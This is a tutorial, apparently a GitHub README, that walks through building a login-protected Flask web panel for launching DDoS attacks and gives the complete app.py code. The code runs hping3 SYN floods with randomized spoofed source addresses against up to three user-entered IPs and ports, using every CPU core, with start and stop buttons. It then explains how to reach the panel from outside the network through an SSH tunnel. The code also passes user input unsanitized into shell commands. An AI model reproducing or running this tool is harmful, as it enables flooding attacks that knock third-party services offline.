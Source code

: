 1. Open the terminal

On your server (Linux/Kali), open the terminal.
2. Create a new directory for your project

Create a folder for the Flask app and navigate into it:

mkdir flask-ddos-app
cd flask-ddos-app

3. Create and edit the app.py file

Use nano to create and edit the app.py file:

nano app.py

4. Insert the Flask code in app.py

Copy and paste the following code into the app.py file:

from flask import Flask, request, render_template_string, jsonify, redirect, url_for, session
import subprocess
import threading
import time
import os
import multiprocessing

app = Flask(__name__)
app.secret_key = os.urandom(24)  # Generate a random session key on server startup

# HTML template
HTML_TEMPLATE = '''
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Attack Management</title>
    <script>
        function startAttack() {
            const ip1 = document.getElementById('ip1').value;
            const port1 = document.getElementById('port1').value;
            const ip2 = document.getElementById('ip2').value;
            const port2 = document.getElementById('port2').value;
            const ip3 = document.getElementById('ip3').value;
            const port3 = document.getElementById('port3').value;
            const duration = document.getElementById('duration').value;

            // Create a JSON object with the data
            const data = {
                ip1: ip1,
                port1: port1,
                ip2: ip2,
                port2: port2,
                ip3: ip3,
                port3: port3,
                duration: duration
            };

            fetch('/start_attack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(data)
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Error: ' + error);
            });
        }

        function stopAttack() {
            fetch('/stop_attack', {
                method: 'POST'
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Error: ' + error);
            });
        }
    </script>
</head>
<body>
    <h1>Start DDoS Attack</h1>
    <label for="ip1">IP1:</label>
    <input type="text" id="ip1" placeholder="Enter IP Address">
    <br><br>
    <label for="port1">Port1:</label>
    <input type="number" id="port1" placeholder="Enter Port">
    <br><br>

    <label for="ip2">IP2:</label>
    <input type="text" id="ip2" placeholder="Enter IP Address">
    <br><br>
    <label for="port2">Port2:</label>
    <input type="number" id="port2" placeholder="Enter Port">
    <br><br>

    <label for="ip3">IP3:</label>
    <input type="text" id="ip3" placeholder="Enter IP Address">
    <br><br>
    <label for="port3">Port3:</label>
    <input type="number" id="port3" placeholder="Enter Port">
    <br><br>

    <label for="duration">Duration (seconds):</label>
    <input type="number" id="duration" placeholder="Duration">
    <br><br>

    <button onclick="startAttack()">Start Attack</button>
    <button onclick="stopAttack()">Stop Attack</button>
</body>
</html>
'''

# HTML login template
LOGIN_TEMPLATE = '''
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <form action="/login" method="POST">
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br><br>
        <button type="submit">Login</button>
    </form>
</body>
</html>
'''

# Define your password here
PASSWORD = "yourpassword"

# HTML login route
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        password = request.form.get('password')
        if password == PASSWORD:
            session['logged_in'] = True  # Set session to logged in
            return redirect(url_for('index'))
        else:
            return "Incorrect password", 403
    return render_template_string(LOGIN_TEMPLATE)

# Function to run the hping3 attack using all CPU cores
def start_attack(ip, port, duration):
    # Get the number of CPU cores
    cpu_cores = multiprocessing.cpu_count()

    # Command to use all CPU cores
    for _ in range(cpu_cores):
        command = f"sudo hping3 --flood --rand-source -S -p {port} {ip} &"
        subprocess.run(command, shell=True, executable="/bin/bash")

    if duration > 0:
        time.sleep(duration)
        stop_attack_command = "sudo killall hping3"
        subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")

@app.route('/')
def index():
    if not session.get('logged_in'):  # Check if user is logged in
        return redirect(url_for('login'))  # If not, redirect to login page
    return render_template_string(HTML_TEMPLATE)

@app.route('/start_attack', methods=['POST'])
def start_attack_route():
    # Get the data as JSON
    data = request.json
    ip1 = data.get('ip1')
    port1 = data.get('port1')
    ip2 = data.get('ip2')
    port2 = data.get('port2')
    ip3 = data.get('ip3')
    port3 = data.get('port3')
    duration = int(data.get('duration', 0))

    # Check if ip1 and port1 are provided
    if not ip1 or not port1:
        return jsonify({"status": "error", "message": "IP and port 1 must be provided!"}), 400

    # Start the attack in separate threads for each IP and port
    if ip1 and port1:
        threading.Thread(target=start_attack, args=(ip1, port1, duration)).start()
    if ip2 and port2:
        threading.Thread(target=start_attack, args=(ip2, port2, duration)).start()
    if ip3 and port3:
        threading.Thread(target=start_attack, args=(ip3, port3, duration)).start()

    return jsonify({"status": "success", "message": "Attack started!"})

@app.route('/stop_attack', methods=['POST'])
def stop_attack_route():
    # Stop the attack
    stop_attack_command = "sudo killall hping3"
    subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")
    return jsonify({"status": "success", "message": "Attack stopped!"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

5. Save the file

After pasting the code, save the file by pressing CTRL + O and then press CTRL + X to exit nano.
6. Install Flask

If Flask is not installed yet, you can install it by running:

pip install flask

7. Run the server

Start the Flask server using:

python app.py

The server will run on http://0.0.0.0:5000, and you can access the application from any device connected to your network.
Accessing Remotely with Serveo.net

If you would like to access your Flask server from another device outside your local network, you can use serveo.net, which provides free SSH tunneling. Here’s how to do it:
1. Open the terminal on your server

Navigate to the directory where app.py is located.
